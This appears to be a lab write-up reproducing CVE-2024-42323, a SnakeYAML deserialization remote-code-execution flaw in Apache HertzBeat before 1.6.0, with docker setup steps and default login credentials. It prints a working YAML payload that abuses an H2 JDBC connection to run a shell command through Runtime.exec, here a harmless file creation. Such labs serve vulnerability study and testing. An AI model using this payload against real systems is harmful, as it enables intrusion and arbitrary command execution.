



Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)¶
Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.
In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the /api/monitors/import or /api/alert/defines/import APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.
References:
- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md
Environment Setup¶
Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:
docker compose up -d
After the service is started, you can access the HertzBeat dashboard at http://your-ip:1157/dashboard. The default login credentials are:
- Username:
admin - Password:
hertzbeat
Vulnerability Reproduction¶
First prepare a malicious YAML file that filename ends with .yaml:
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
Then log into the HertzBeat dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files, upload the malicious YAML file:

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote code execution:

If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:
